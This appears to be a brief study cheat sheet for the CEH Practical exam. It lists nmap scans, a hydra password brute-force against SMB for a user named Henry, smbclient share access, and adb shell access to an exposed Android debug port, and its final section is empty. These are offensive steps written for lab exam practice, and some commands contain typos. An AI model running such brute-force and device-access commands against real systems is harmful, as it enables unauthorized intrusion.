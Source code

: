 # CEH PRACTICAL
1 FQDN
* nmap -p389 -sV <subnet> -Pn
*          OR
* nmap -A <subnet> -Pn

2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 <subnet>

3 SMB 
* nmap -p 445 <subnet>
* hydra -l Henry -P <password.txt file on desktop> <ip> smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get <file name> password same as Henry
* if file contains hash decode it

4 Android
* namp -p 5555 <subnet> -Pn
* adb connect <ip>:5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent <file1>
* ent <file2>
* ent <file3>
* sha384sum <file with highest ent>

5 SEVERITY
* nmap -Pn --script vuln <ip>
* CVE check on google nvd.nist.gov

6 REMOTE LOGIN SENSITIVE FILE
*
